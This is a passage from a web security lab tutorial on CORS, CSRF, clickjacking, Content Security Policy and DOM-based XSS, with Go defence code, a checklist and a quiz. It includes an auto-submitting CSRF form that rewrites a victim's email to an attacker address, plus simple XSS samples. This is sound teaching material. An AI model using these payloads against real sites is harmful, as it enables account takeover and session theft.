Attacker's JavaScript: fetch('https://victim.com/api/profile')
         ↓
Browser: Sends request with Cookies attached
         ↓
Server: Authentication succeeds → Response includes sensitive data
         ↓
[This is where CORS makes the decision]
         ↓
CORS Denied: Browser blocks the response ✓
           → JavaScript cannot read the data

CORS Misconfigured: Browser passes response to JavaScript ✗
           → Attacker steals sensitive data
```

**Complementary Relationship:**

```text
[Without CSRF]
Attacker's form → Unauthorized request sent → Server executes
                   → Data gets modified ✗

[Without CORS]
Attacker's fetch → Request sent → Server executes
                 → Response can't be read, but side effects occur ✗

[Both Necessary]
CSRF: Guarantees request authenticity (action defense)
CORS: Restricts response reading (information defense)
```

---

### Why Preflight Requests Alone Cannot Prevent CSRF

**Conclusion:** No, preflight requests (OPTIONS method) cannot fully prevent CSRF.

**When Preflight Occurs:**

Preflight only happens for **"complex requests"**:

```javascript
// ✅ Preflight occurs
fetch(url, {
    method: 'PUT',                    // PUT/DELETE/PATCH
    headers: { 'X-Custom': 'value' }  // Custom headers
})

// ❌ No preflight (simple request)
fetch(url, {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
})
```

**Simple POST Request Conditions:**

- Method: GET, HEAD, POST only
- Headers: `Accept`, `Accept-Language`, `Content-Language`, `Content-Type` only
- `Content-Type`: `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` only

**CSRF Attacks Can Bypass Preflight:**

Attackers use **form submissions**:

```html
<!-- Attacker Site HTML -->
<form action="https://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
</form>
<script>
    document.forms[0].submit(); // Auto-submit
</script>
```

This request:

```text
POST /update-email HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Cookie: session_id=...  ← Automatically attached

email=hacker@evil.com
```

Is sent **without preflight** → Bypasses CORS check

**Attack Method Comparison:**

| Attack Method | Preflight? | CORS Can Block? | CSRF Token Can Block? |
| :--- | :---: | :---: | :---: |
| **Form POST** | ❌ No | ❌ No | ✅ Yes |
| **fetch + PUT/DELETE** | ✅ Yes | ✅ Yes | ✅ Yes |
| **fetch + Custom Headers** | ✅ Yes | ✅ Yes | ✅ Yes |
| **img tag GET** | ❌ No | ❌ No | ⚠️ Limited |

**Summary:**

CORS + preflight is insufficient as a CSRF countermeasure because:

1. **Cannot prevent form submission attacks**
   - The most common CSRF attack vector
   - Requests are sent without preflight

2. **Cannot prevent GET request attacks**
   - `` etc.
   - GET never triggers preflight

3. **Risks remain without SameSite Cookies**
   - Even preflight-triggered requests send Cookies
   - Can prevent reading, but not side effects (operation execution)

**Therefore, CORS only serves as information leak protection, and CSRF defense still requires CSRF tokens or SameSite Cookies.**

---

**Summary:**

1. **CORS is browser protection**: Restricts reading responses from different origins.
2. **CORS doesn't fully prevent CSRF**: The request itself is still sent.
3. **Avoid `Access-Control-Allow-Origin: *`**: Forbidden for APIs requiring authentication.
4. **Don't forget preflight**: Respond properly to the OPTIONS method.
5. **CSRF countermeasures are still needed**: CSRF tokens or SameSite Cookies are essential.

---

### Clickjacking Prevention

#### 1. X-Frame-Options Header

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ Completely prohibit iframe embedding
    w.Header().Set("X-Frame-Options", "DENY")

    // Or, allow only the same origin
    // w.Header().Set("X-Frame-Options", "SAMEORIGIN")

    fmt.Fprintf(w, "<h1>Follow @hacker</h1>...")
}
```

**Header Values and Effects:**

| Value | Effect |
| :--- | :--- |
| `DENY` | Rejects all iframe embedding |
| `SAMEORIGIN` | Allows embedding only from the same origin |
| `ALLOW-FROM uri` | Allows only a specific origin (Deprecated) |

#### 2. Content-Security-Policy (CSP)

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ Control iframe embedding with frame-ancestors
    w.Header().Set("Content-Security-Policy",
        "frame-ancestors 'self';")  // Allow only same-site

    // To completely prohibit
    w.Header().Set("Content-Security-Policy",
        "frame-ancestors 'none';")
}
```

**Verifying CSP:**

```bash
# Check in Browser DevTools
# Console: "Refused to display ... in a frame because it set 'X-Frame-Options' to 'deny'."
```

---

### CSP (Content Security Policy) Deep Dive

#### What is CSP?

CSP is an HTTP response header that tells the browser which sources of resources (scripts, images, styles, etc.) are allowed for the current page. It is a powerful defense layer that significantly mitigates XSS risks.

**Without CSP:**

```text
Browser: Executes all <script> tags on the page.
         → Malicious injections like <script>alert(document.cookie)</script> run.
```

**With CSP:**

```text
Server:  Content-Security-Policy: script-src 'self'
Browser: "Only execute scripts that come from the same origin ('self')."
         → Inline <script> tags are blocked.
         → Injected scripts are not executed ✓
```

#### How CSP Works

```text
1. Server declares policy via HTTP response header
   Content-Security-Policy: script-src 'self'; style-src 'self'

2. Browser evaluates policy during page load
   - Checks the source of each resource
   - Blocks resources that violate the policy

3. On violation
   - Outputs error message to console
   - Sends violation report (if configured)
```

#### Common Directives

| Directive | Controls | Example |
| :--- | :--- | :--- |
| `script-src` | Where JavaScript can be loaded from | `'self'`, `'unsafe-inline'`, `'nonce-abc'` |
| `style-src` | Where CSS can be loaded from | `'self'`, `'unsafe-inline'` |
| `img-src` | Where images can be loaded from | `'self'`, `https://images.example.com` |
| `font-src` | Where fonts can be loaded from | `'self'`, `https://fonts.googleapis.com` |
| `connect-src` | Destinations for fetch/XHR/WebSockets | `'self'`, `https://api.example.com` |
| `frame-src` | Where iframes can be loaded from | `'self'`, `https://trusted.com` |
| `frame-ancestors` | Which pages can embed this page | `'none'`, `'self'` (Clickjacking defense) |
| `default-src` | Fallback for other directives | `'self'` |
| `object-src` | Plugins like Flash/Java | `'none'` (Recommended) |
| `base-uri` | Restricts `<base>` tags | `'self'` |
| `form-action` | Where forms can be submitted | `'self'` |

#### Source Values

| Value | Meaning | Risk |
| :--- | :--- | :--- |
| `'self'` | Same origin only | Safe (Recommended) |
| `'none'` | Allow nothing | Safest |
| `'unsafe-inline'` | Allow inline scripts/styles | Dangerous (Negates XSS protection) |
| `'unsafe-eval'` | Allow `eval()` etc. | Dangerous |
| `'nonce-<value>'` | Only allow scripts with matching nonce attribute | Safe (Recommended) |
| `'sha256-<hash>'` | Only allow scripts matching the hash | Safe |
| `https://...` | Allow specific domain | Moderate |
| `*` | Allow everything | Dangerous |

#### Step-by-Step CSP Implementation

**Step 1: Report-Only Mode (No Impact)**

```go
// Content-Security-Policy-Report-Only blocks nothing, only reports violations
w.Header().Set("Content-Security-Policy-Report-Only",
    "default-src 'self'; " +
    "report-uri /csp-report")

// Use this in production first to collect violation logs before switching to actual CSP
```

**Step 2: Lenient Policy (Migration Phase)**

```go
// Temporarily allow inline scripts (while refactoring existing code)
w.Header().Set("Content-Security-Policy",
    "default-src 'self'; " +
    "script-src 'self' 'unsafe-inline'; " +  // Remove gradually
    "style-src 'self' 'unsafe-inline'; " +
    "img-src 'self' data:; " +
    "frame-ancestors 'none'")
```

**Step 3: Strict Policy (Nonce-based, Recommended)**

```go
import (
    "crypto/rand"
    "encoding/base64"
)

func generateNonce() string {
    b := make([]byte, 16)
    rand.Read(b)
    return base64.StdEncoding.EncodeToString(b)
}

func secureHandler(w http.ResponseWriter, r *http.Request) {
    nonce := generateNonce()

    w.Header().Set("Content-Security-Policy",
        "default-src 'none'; " +
        "script-src 'nonce-" + nonce + "'; " +     // Only allow scripts with this nonce
        "style-src 'self'; " +
        "img-src 'self'; " +
        "connect-src 'self'; " +
        "frame-ancestors 'none'; " +
        "base-uri 'self'; " +
        "form-action 'self'")

    // Add nonce attribute in HTML
    fmt.Fprintf(w, `
        <script nonce="%s">
            // Only this script will execute
            // Injected <script> tags have no nonce → blocked
            console.log('legitimate script');
        </script>
    `, nonce)
}
```

**How nonce-based defense works:**

```text
Server generates: <script nonce="abc123">...</script>
CSP header:       script-src 'nonce-abc123'

Attacker injects: <script>alert('XSS')</script>
                   ↑ No nonce attribute → Browser blocks ✓

<script nonce="abc123">alert('XSS')</script>
                   ↑ Attacker cannot know the nonce value → Blocked ✓
```

#### What CSP Can and Cannot Prevent

| Attack | Prevented by CSP? | Reason |
| :--- | :--- | :--- |
| Inline `<script>` XSS | Yes, with `script-src 'self'` | Inline scripts are blocked |
| External malicious scripts | Yes, with `script-src 'self'` | Non-allowed domains are blocked |
| `eval()`-based XSS | Yes, without `unsafe-eval` | `eval()` is blocked |
| Clickjacking | Yes, with `frame-ancestors 'none'` | iframe embedding is blocked |
| CSRF | No | CSRF uses form submissions, not scripts |
| `` XSS | Yes, without `unsafe-inline` | Inline event handlers are blocked |

#### Implementation: Go CSP Middleware

```go
func cspMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        nonce := generateNonce()
        r.Header.Set("X-CSP-Nonce", nonce) // Make available to handlers

        w.Header().Set("Content-Security-Policy",
            "default-src 'none'; " +
            "script-src 'nonce-" + nonce + "'; " +
            "style-src 'self'; " +
            "img-src 'self'; " +
            "connect-src 'self'; " +
            "frame-ancestors 'none'; " +
            "base-uri 'self'; " +
            "form-action 'self'; " +
            "report-uri /csp-report")

        next.ServeHTTP(w, r)
    })
}
```

#### Checking CSP Violations

```text
Chrome DevTools:
  Console tab → "Refused to execute inline script because it violates
                  the following Content Security Policy directive: 'script-src'"

  Network tab → Check POST requests to "csp-report"

Example report body:
{
  "csp-report": {
    "document-uri": "http://localhost:8080/xss/stored",
    "violated-directive": "script-src 'self'",
    "blocked-uri": "inline"
  }
}
```

---

## Defensive Countermeasures Checklist

| Vulnerability | Item | Check |
| :--- | :--- | :--- |
| **XSS** | Is user input being escaped? | □ |
| | Using automatic escaping (e.g., `html/template`)? | □ |
| | Is the HttpOnly Cookie set? | □ |
| | Is CSP configured to restrict inline scripts? | □ |
| **CSRF** | Is the CSRF token implemented? | □ |
| | Is the SameSite attribute set to Lax or Strict? | □ |
| | Is re-authentication required for critical operations? | □ |
| **Clickjacking** | Is the X-Frame-Options header set? | □ |
| | Is CSP frame-ancestors configured? | □ |

---

## Advanced Attack Techniques

### DOM-based XSS

Unlike traditional XSS, the server response is not vulnerable; the vulnerability arises when client-side JavaScript performs DOM operations unsafely.

```javascript
// Vulnerable Code Example
const hash = location.hash.substring(1);
document.getElementById("output").innerHTML = hash;  // Direct insertion

// Attack URL: http://victim.com/#
```

**Countermeasures:**

- Use `textContent` or `innerText` instead of `innerHTML`.
- Use sanitization libraries like DOMPurify.

### Self-XSS

An attacker tricks a user into executing a malicious script themselves, often by claiming it's a "required command" to gain extra features.

---

## Comprehension Check

### Quiz

1. **What is the difference between Stored XSS and Reflected XSS?**
   - <details><summary>Answer</summary>Stored XSS saves the attack code on the server, executing it whenever the page is viewed. Reflected XSS is executed immediately via URL parameters and is not saved on the server.</details>

2. **Why are Cookies sent during a CSRF attack?**
   - <details><summary>Answer</summary>Browsers automatically attach Cookies to requests sent to the same origin. Without the SameSite attribute, they are sent even for requests originating from other sites.</details>

3. **What is the difference between X-Frame-Options: DENY and SAMEORIGIN?**
   - <details><summary>Answer</summary>DENY rejects all iframe embedding. SAMEORIGIN allows embedding only from the same origin.</details>

4. **Can a Cookie with the HttpOnly attribute be read by JavaScript?**
   - <details><summary>Answer</summary>No, a Cookie with the HttpOnly attribute cannot be read via `document.cookie`. This prevents Cookie theft via XSS.</details>

5. **Why is Origin Reflection dangerous?**
   - <details><summary>Answer</summary>Origin Reflection allows any origin to access the response. Combined with `Access-Control-Allow-Credentials: true`, it enables an attacker site to steal sensitive data using the victim's session Cookie.</details>

---

## Cleanup

Press `Ctrl+C` in each terminal to stop the servers.

---

## Troubleshooting

### Q: No alert is displayed

**A:** Your browser's XSS Auditor or similar features might be blocking the attack. Check the Console for errors.

### Q: Email address is not changed after a CSRF attack

**A:** Ensure you have logged in and the session Cookie is set. Check the form action URL on the attacker site.

### Q: Clickjacking iframe is not displayed

**A:** Ensure both Victim and Attacker sites are running. Check if the browser's iframe blocking features are active.

---

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [IPA: How to build secure websites (Japanese)](https://www.ipa.go.jp/security/vuln/websecurity.html)
- [MDN: Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
